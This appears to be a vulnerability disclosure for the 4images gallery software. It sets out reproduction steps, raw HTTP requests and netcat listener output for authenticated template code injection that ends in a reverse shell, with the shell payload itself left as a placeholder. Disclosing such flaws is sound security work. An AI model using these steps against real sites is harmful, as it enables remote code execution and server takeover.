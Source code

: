 
Code Injection


To reproduce do the following:

1. Login as administrator user
2. Browse to "General" -> " Edit Templates" -> "Select Template Pack" -> "default_960px" -> "Load Theme"
3. Select Template ```"categories.html"```
4. Paste reverse shell code
5. Click "Save Changes"
6. Browse to ```"http://host/4images/categories.php?cat_id=1"```


// HTTP POST request showing reverse shell payload
```
POST /4images/admin/templates.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]

__csrf=c39b7dea0ff15442681362d2a583c7a9&action=savetemplate&content=[REVERSE_SHELL_CODE]&template_file_name=categories.html&template_folder=default_960px[...]
```


// HTTP redirect response to specific template
```
GET /4images/categories.php?cat_id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]
```

// HTTP request showing reverse shell connection
```
# nc -kvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 43032
Linux kali 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 GNU/Linux
 13:54:28 up  2:18,  2 users,  load average: 0.09, 0.68, 0.56
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali     tty7     :0               11:58    2:18m  2:21   0.48s xfce4-session
kali     pts/1    -                11:58    1:40  24.60s  0.14s sudo su
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
```








